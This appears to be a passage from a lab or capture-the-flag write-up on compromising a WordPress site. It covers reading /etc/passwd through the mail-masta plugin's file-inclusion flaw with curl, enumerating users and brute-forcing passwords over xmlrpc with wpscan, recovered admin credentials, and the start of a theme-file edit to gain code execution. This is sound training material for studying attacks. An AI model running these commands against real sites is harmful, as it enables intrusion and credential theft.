 * WordPress (5.1.6)
* mail-masta (1.0)
* photo-gallery (1.5.34)
* wp-google-places-review-slider (6.1)

There is an exploit for mail-masta : [40290](https://www.exploit-db.com/exploits/40290).

```bash
curl http://167.172.57.150:30878/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
curl http://167.172.57.150:30878/wp-content/plugins/mail-masta/inc/lists/csvexport.php?pl=/etc/passwd
```

### User Bruteforce

List all users on WordPress :

```bash
wpscan --enumerate u --url http://167.172.57.150:31546
```

And you get `admin`, `david` and `roger`. To bruteforce the user password, you must use `--password-attack xmlrpc` to attempt to login with the xmlrpc method.

```bash
wpscan --url http://167.172.57.150:31546 --password-attack xmlrpc -t 20 -U admin,david -P /usr/share/wordlists/rockyou.txt
```

The credentials are `admin:sunshine1`

**Attacking the WordPress backend**

Connect with the admin credentials `admin:sunshine1` and update the file `404.php` on the theme`Twenty Seventeen`.

<figure><img src="../../../../.gitbook/assets/theme-editor.png" alt=""><figcaption></figcaption></figure>
